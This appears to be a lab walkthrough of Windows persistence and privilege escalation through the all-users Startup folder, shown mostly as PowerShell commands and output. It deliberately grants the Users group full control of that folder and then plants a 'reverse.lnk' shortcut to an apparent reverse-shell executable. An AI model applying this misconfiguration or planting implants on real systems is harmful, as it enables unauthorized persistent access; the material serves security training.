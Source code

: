 Run a command prompt or PowerShell console as an administrator and grant full permissions to the startup directory:

```powershell
PS C:\Windows\system32> icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" /grant "BUILTIN\Users:F"
processed file: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
Successfully processed 1 files; Failed processing 0 files
```

Verify that the permissions have been applied:

```powershell
PS C:\Windows\system32> icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup BUILTIN\Users:(F)
                                                             S-1-5-21-264094270-2388996790-3434637240-1000:(I)(OI)(CI)(DE,DC)
                                                             DESKTOP-BN\user:(I)(OI)(CI)(DE,DC)
                                                             DESKTOP-BN\Administrator:(I)(OI)(CI)(DE,DC)
                                                             NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                                                             BUILTIN\Administrators:(I)(OI)(CI)(F)
                                                             BUILTIN\Users:(I)(OI)(CI)(RX)
                                                             Everyone:(I)(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files  
```

As we can see, the `Users` group can write to the Startup directory. Therefore, we can create a malicious binary or implant and place it in that directory.

```powershell
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\reverse.lnk")
$Shortcut.TargetPath = "C:\Tools\reverse.exe"
$Shortcut.Save()
```

In a low-privileged user (default user) command prompt or PowerShell console, execute the script:

```powershell
PS C:\Users\user> powershell.exe /c "C:\Tools\CreateShortcut.ps1"
```

Check if the shortcut was created:

```powershell

PS C:\Users\user> dir "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\reverse.lnk"


    Directory: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2022   4:41 PM            611 reverse.lnk
```
